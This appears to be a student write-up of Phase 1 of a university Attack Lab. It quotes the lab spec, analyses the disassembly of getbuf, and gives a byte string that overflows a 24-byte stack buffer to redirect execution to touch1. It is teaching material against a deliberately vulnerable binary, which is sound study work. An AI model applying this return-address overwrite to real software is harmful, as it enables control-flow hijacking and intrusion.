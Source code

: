 
# Phase 1

## Attack Lab Spec

For Phase 1, you will not inject new code. Instead, your exploit string will redirect the program to execute an existing procedure.
Function getbuf is called within CTARGET by a function test having the following C code:  
`void test()                                          `              
`{                                                    `  
`  int val;                                             `  
`  val = getbuf();                                      `  
`  printf("No exploit. Getbuf returned 0x%x\n", val);   `  
`}                                                    `  
When `getbuf` executes its return statement (line 5 of `getbuf`), the program ordinarily resumes execution
within function `test` (at line 5 of this function). We want to change this behavior. Within the file `ctarget`,
there is code for a function `touch1` having the following C representation:  
`void touch1()                                    `  
`{                                                `  
`  vlevel = 1; /* Part of validation protocol */    `  
`  printf("Touch1!: You called touch1()\n");        `  
`  validate(1);                                     `  
`  exit(0);                                         `  
`}                                                `  
Your task is to get `CTARGET` to execute the code for `touch1` when `getbuf` executes its return statement,
rather than returning to `test`. Note that your exploit string may also corrupt parts of the stack not directly
related to this stage, but this will not cause a problem, since `touch1` causes the program to exit directly.

**Some Advice**:  
• All the information you need to devise your exploit string for this level can be determined by examining a disassembled version of `CTARGET`. Use `objdump -d` to get this dissembled version.  
• The idea is to position a byte representation of the starting address for `touch1` so that the ret instruction at the end of the code for `getbuf` will transfer control to `touch1`.  
• Be careful about byte ordering.  
• You might want to use GDB to step the program through the last few instructions of `getbuf` to make sure it is doing the right thing.  
• The placement of `buf` within the stack frame for `getbuf` depends on the value of compile-time constant BUFFER_SIZE, as well the allocation strategy used by GCC. You will need to examine the disassembled code to determine its position.  

## Analysis

It's clear that we need to get to `touch1` from `getbuf`. Looking at `getbuf` in cobjectdum we see the following code:  
`00000000004017be <getbuf>:                        `  
`4017be:	48 83 ec 18          	sub    $0x18,%rsp   `  
`4017c2:	48 89 e7             	mov    %rsp,%rdi    `  
`4017c5:	e8 30 02 00 00       	callq  4019fa <Gets>`  
`4017ca:	b8 01 00 00 00       	mov    $0x1,%eax    `  
`4017cf:	48 83 c4 18          	add    $0x18,%rsp   `  
`4017d3:	c3                   	retq                `  

Looking at the code, we see the following things happen. We put 0x18 bytes of storage on the stack, and then put our stack pointer into rdi. The function `Gets` is then called which we can assume
inputs whatever we enter into the stack. This pens up the opportunity for code injection. For phase 1, this is simply just changing the return address, which is always the last thing on the stack when
a function exits. We can confirm this by considering that we add 0x18 back to the rsp and then retq, which pops the value held at rsp and then goes to it. Therefore, if we can inject 0x18 bytes of random values and then the address of `touch1` when `retq` attempts to return to the address pointed to by rsp, it'll be our address. Looking again through the object dumb for `touch1` we see  
`00000000004017d4 <touch1>`  
which tells us that our touch1 function is at address 0x4017d4. We remember that x86-64 operates on little endian, and thus in our string the address must be formatted correctly.

## Final Solution

Knowing that our `getbuf` requires 0x18 or 1 * 16 + 8 * 1 = 24 bytes of input and then our return address, we can put the two together to yield the final injection string:
`00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 d4 17 40`  
